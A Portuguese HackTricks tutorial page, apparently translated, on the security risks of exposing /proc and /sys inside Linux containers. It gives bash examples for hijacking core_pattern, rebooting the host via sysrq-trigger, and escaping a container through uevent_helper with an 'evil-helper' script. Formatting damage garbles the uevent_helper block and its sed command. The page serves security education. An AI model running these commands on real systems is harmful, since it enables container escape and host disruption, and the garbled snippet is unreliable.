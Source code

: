 # Montagens Sensíveis

<details>

<summary><strong>Aprenda hacking na AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

A exposição de `/proc` e `/sys` sem isolamento adequado de namespace introduz riscos significativos de segurança, incluindo aumento da superfície de ataque e divulgação de informações. Esses diretórios contêm arquivos sensíveis que, se mal configurados ou acessados por um usuário não autorizado, podem levar à fuga do contêiner, modificação do host ou fornecer informações que auxiliam em ataques adicionais. Por exemplo, montar incorretamente `-v /proc:/host/proc` pode contornar a proteção do AppArmor devido à sua natureza baseada em caminho, deixando `/host/proc` desprotegido.

**Você pode encontrar mais detalhes de cada vulnerabilidade potencial em** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## Vulnerabilidades do procfs

### `/proc/sys`

Este diretório permite acesso para modificar variáveis do kernel, geralmente via `sysctl(2)`, e contém vários subdiretórios de interesse:

#### **`/proc/sys/kernel/core_pattern`**

* Descrito em [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
* Permite definir um programa para executar na geração de arquivos de core com os primeiros 128 bytes como argumentos. Isso pode levar à execução de código se o arquivo começar com um pipe `|`.
*   **Exemplo de Teste e Exploração**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Testar acesso de escrita
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Definir manipulador personalizado
sleep 5 && ./crash & # Acionar manipulador
```

#### **`/proc/sys/kernel/modprobe`**

* Detalhado em [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Contém o caminho para o carregador de módulos do kernel, invocado para carregar módulos do kernel.
*   **Exemplo de Verificação de Acesso**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Verificar acesso ao modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

* Referenciado em [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
* Uma flag global que controla se o kernel entra em pânico ou invoca o OOM killer quando ocorre uma condição de OOM.

#### **`/proc/sys/fs`**

* Conforme [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), contém opções e informações sobre o sistema de arquivos.
* O acesso de escrita pode permitir vários ataques de negação de serviço contra o host.

#### **`/proc/sys/fs/binfmt_misc`**

* Permite registrar interpretadores para formatos binários não nativos com base em seus números mágicos.
* Pode levar à escalada de privilégios ou acesso ao shell root se `/proc/sys/fs/binfmt_misc/register` for gravável.
* Exploração relevante e explicação:
* [Rootkit de pobre via binfmt\_misc](https://github.com/toffan/binfmt\_misc)
* Tutorial detalhado: [Link do vídeo](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Outros em `/proc`

#### **`/proc/config.gz`**

* Pode revelar a configuração do kernel se `CONFIG_IKCONFIG_PROC` estiver habilitado.
* Útil para atacantes identificarem vulnerabilidades no kernel em execução.

#### **`/proc/sysrq-trigger`**

* Permite invocar comandos Sysrq, potencialmente causando reinicializações imediatas do sistema ou outras ações críticas.
*   **Exemplo de Reinicialização do Host**:

```bash
echo b > /proc/sysrq-trigger # Reinicia o host
```

#### **`/proc/kmsg`**

* Expõe mensagens do buffer de anel do kernel.
* Pode auxiliar em exploits do kernel, vazamentos de endereços e fornecer informações sensíveis do sistema.

#### **`/proc/kallsyms`**

* Lista símbolos exportados do kernel e seus endereços.
* Essencial para o desenvolvimento de exploits do kernel, especialmente para superar o KASLR.
* As informações de endereço são restritas com `kptr_restrict` definido como `1` ou `2`.
* Detalhes em [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

* Interface com o dispositivo de memória do kernel `/dev/mem`.
* Historicamente vulnerável a ataques de escalonamento de privilégios.
* Mais em [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

* Representa a memória física do sistema no formato de core ELF.
* A leitura pode vazar conteúdos de memória do host e de outros contêineres.
* O tamanho grande do arquivo pode levar a problemas de leitura ou falhas de software.
* Uso detalhado em [Despejando /proc/kcore em 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

* Interface alternativa para `/dev/kmem`, representando a memória virtual do kernel.
* Permite leitura e escrita, portanto, modificação direta da memória do kernel.

#### **`/proc/mem`**

* Interface alternativa para `/dev/mem`, representando a memória física.
* Permite leitura e escrita, a modificação de toda a memória requer a resolução de endereços virtuais para físicos.

#### **`/proc/sched_debug`**

* Retorna informações de agendamento de processos, contornando as proteções do namespace PID.
* Expõe nomes de processos, IDs e identificadores de cgroup.

#### **`/proc/[pid]/mountinfo`**

* Fornece informações sobre pontos de montagem no namespace de montagem do processo.
* Expõe a localização do `rootfs` do contêiner ou da imagem.

### Vulnerabilidades do `/sys`

#### **`/sys/kernel/uevent_helper`**

* Usado para lidar com `uevents` de dispositivos do kernel.
* Escrever em `/sys/kernel/uevent_helper` pode executar scripts arbitrários ao acionar `uevents`.
*   **Exemplo de Exploração**: %%%bash

### Cria uma carga útil

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

### Encontra o caminho do host a partir da montagem OverlayFS para o contêiner

host\_path=$(sed -n 's/._\perdir=(\[^,]_).\*/\1/p' /etc/mtab)

### Define uevent\_helper para o helper malicioso

echo "$host\_path/evil-helper" > /sys/kernel/uevent\_helper

### Aciona um uevent

echo change > /sys/class/mem/null/uevent

### Lê a saída

cat /output %%%
#### **`/sys/class/thermal`**

* Controla as configurações de temperatura, potencialmente causando ataques de DoS ou danos físicos.

#### **`/sys/kernel/vmcoreinfo`**

* Vaza endereços do kernel, comprometendo potencialmente o KASLR.

#### **`/sys/kernel/security`**

* Abriga a interface `securityfs`, permitindo a configuração de Módulos de Segurança Linux como AppArmor.
* O acesso pode permitir que um contêiner desative seu sistema MAC.

#### **`/sys/firmware/efi/vars` e `/sys/firmware/efi/efivars`**

* Expõe interfaces para interagir com variáveis EFI na NVRAM.
* Má configuração ou exploração pode resultar em laptops inutilizáveis ou máquinas host iniciais.

#### **`/sys/kernel/debug`**

* `debugfs` oferece uma interface de depuração "sem regras" para o kernel.
* Histórico de problemas de segurança devido à sua natureza irrestrita.

### Referências

* [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
* [Compreensão e Reforço de Contêineres Linux](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc\_group\_understanding\_hardening\_linux\_containers-1-1.pdf)
* [Abusando de Contêineres Linux Privilegiados e Não Privilegiados](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container\_whitepaper.pdf)

<figure><img src="../../../../.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
